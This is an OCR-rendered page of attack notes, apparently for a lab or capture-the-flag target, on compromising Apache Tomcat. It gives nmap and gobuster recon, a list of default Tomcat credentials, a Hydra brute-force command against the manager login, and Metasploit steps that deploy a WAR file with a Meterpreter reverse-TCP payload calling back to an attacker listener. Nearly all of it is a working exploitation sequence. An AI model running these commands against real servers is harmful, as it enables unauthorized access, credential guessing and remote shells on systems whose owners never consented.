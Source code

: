 Set variables
```
export TARGET=10.10.10.10
export LHOST=10.10.14.5
export LPORT=4444
```

1) Recon and enumeration
```
nmap -p80,8080,8009 -sC -sV --script http-title,http-server-header,http-methods -oN nmap_tomcat.txt $TARGET

# Optional: directory busting on 8080
gobuster dir -u http://$TARGET:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x jsp,war,txt

# Check Tomcat Manager presence and auth
curl -i http://$TARGET:8080/manager/html
```

2) Try default credentials (manual or brute force)
- Common defaults to try in browser: admin:admin, tomcat:tomcat, tomcat:s3cret, admin:password, manager:manager
```
# Hydra brute force (HTTP Basic on /manager/html)
printf "admin\ntomcat\nmanager\n" > users.txt
printf "admin\npassword\ns3cret\ntomcat\n" > passes.txt
hydra -L users.txt -P passes.txt -s 8080 -f -V $TARGET http-get /manager/html
```

3) Exploit Path A: Tomcat Manager WAR deploy

Option A1: Metasploit automated (manager login + upload)
```
msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS $TARGET
set RPORT 8080
set TARGETURI /manager/html
set USER_FILE users.txt
set PASS_FILE passes.txt
set STOP_ON_SUCCESS true
run

# Note found creds, then:
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS $TARGET
set RPORT 8080
set TARGETURI /manager

# One of these will be correct depending on module version:
set HttpUsername tomcat
set HttpPassword s3cret
# or
set USERNAME tomcat
set PASSWORD s3cret

# Choose a payload
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST $LHOST
set LPORT $LPORT
run
```
